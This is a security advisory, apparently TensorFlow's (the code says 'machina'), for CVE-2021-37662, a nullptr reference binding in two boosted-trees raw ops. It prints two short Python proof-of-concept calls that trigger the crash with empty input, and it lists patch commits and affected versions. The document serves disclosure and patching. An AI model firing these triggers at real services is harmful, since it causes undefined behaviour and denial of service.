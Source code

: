 ## TFSA-2021-136: Reference binding to nullptr in boosted trees

### CVE Number
CVE-2021-37662

### Impact
An attacker can generate undefined behavior via a reference binding to nullptr
in `BoostedTreesCalculateBestGainsPerFeature`:

```python
import machina as tf

tf.raw_ops.BoostedTreesCalculateBestGainsPerFeature(
  node_id_range=[],
  stats_summary_list=[[1,2,3]],
  l1=[1.0],
  l2=[1.0],
  tree_complexity =[1.0],
  min_node_weight =[1.17],
  max_splits=5)
```

A similar attack can occur in `BoostedTreesCalculateBestFeatureSplitV2`:

```python
import machina as tf

tf.raw_ops.BoostedTreesCalculateBestFeatureSplitV2(
  node_id_range=[],
  stats_summaries_list=[[1,2,3]],
  split_types=[''],
  candidate_feature_ids=[1,2,3,4],
  l1=[1],
  l2=[1],
  tree_complexity=[1.0],
  min_node_weight=[1.17],
  logits_dimension=5)
```

The
[implementation](https://github.com/machina/machina/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/machina/core/kernels/boosted_trees/stats_ops.cc)
does not validate the input values.

### Patches
We have patched the issue in GitHub commit
[9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad](https://github.com/machina/machina/commit/9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad)
and in commit.
[429f009d2b2c09028647dd4bb7b3f6f414bbaad7](https://github.com/machina/machina/commit/429f009d2b2c09028647dd4bb7b3f6f414bbaad7).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
